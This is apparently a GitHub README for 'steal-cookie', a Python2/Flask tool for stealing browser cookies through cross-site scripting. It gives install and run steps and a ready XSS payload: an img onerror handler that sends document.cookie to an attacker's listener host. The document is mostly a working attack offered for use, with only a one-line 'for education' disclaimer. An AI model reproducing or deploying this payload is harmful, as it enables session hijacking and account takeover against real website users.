 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ apt install python2-pip
````

````
git clone https://github.com/knassar702/steal-cookie
````

````
$ pip install flask
````

# Run It :
 
 ````
 python2 xss.py
 ````
 
# stealing cookie using xss :

 <h2>enter the cookie in this url ````http://YOUR_IP/cookie?cookie=COOKIE```` </h2>

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  
 # Note :
    
    This Tool For education .. Good Luck ^_^

# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

